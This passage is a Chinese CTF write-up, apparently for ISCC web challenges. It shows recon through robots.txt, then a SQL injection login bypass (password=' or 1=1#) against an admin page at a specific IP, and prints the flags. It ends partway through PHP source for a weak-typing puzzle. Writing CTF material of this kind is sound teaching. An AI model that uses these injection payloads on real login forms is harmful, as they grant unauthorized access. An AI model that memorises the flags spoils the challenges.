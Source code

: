 	Flag:{Iscc_1s_Fun_4nd_php_iS_Easy}
---

## 我们一起来日站

> Description：老司机发挥所长，利用平时拿站的技巧来解题吧

拿到FLAG只需要两步，而且题目环境异常粗暴简单，。

### robots.txt文件目录泄露

进入首页后，先要进入后台，但是不知道后台在哪里，一番搜索发现存在robots.txt，内容如下：

``` 
#
# robots.txt 
#
User-agent: * 
Disallow: /21232f297a57a5a743894a0e4a801fc3/
Disallow: /api

```

显然第一个奇奇怪怪的字符串应该是我们寻找的目录，进入目录，提示：

>  keep finding admin page!

根据提示，继续深入，试探网址页面：

	http://139.129.108.53:5090/web-04/21232f297a57a5a743894a0e4a801fc3/admin.php

进入网站后台管理页面。

### 简单SQL注入

后台仅仅给出两个输入框，随便输入内容会给出`Wrong password!`的提示，尝试在第二个输入框内输入单引号`'`，返回错误信息：

	Error selecting database:
此处利用单引号`'`闭合之后，可以随便注入，没有进行什么过滤。构造的FORM提交内容如下：

	username=a&password=' or 1=1#

拿到FLAG：

	Flag:{ar32wefafafqw325t4rqfcafas}
---

## 自相矛盾

> Description：打破常规，毁你三观！

这道题目一共设置了PHP的几个坑，但基本上都可以通过PHP的**弱类型**绕过，此外还有**`%00`截断**等技巧。

首先看题目直接给出的PHP源码：

``` php
$v1=0;$v2=0;$v3=0;
$a=(array)json_decode(@$_GET['iscc']); 

if(is_array($a)){
    is_numeric(@$a["bar1"])?die("nope"):NULL;
    if(@$a["bar1"]){
        ($a["bar1"]>2016)?$v1=1:NULL;
    }
    if(is_array(@$a["bar2"])){
        if(count($a["bar2"])!==5 OR !is_array($a["bar2"][0])) die("nope");
        $pos = array_search("nudt", $a["bar2"]);
        $pos===false?die("nope"):NULL;
        foreach($a["bar2"] as $key=>$val){
            $val==="nudt"?die("nope"):NULL;
```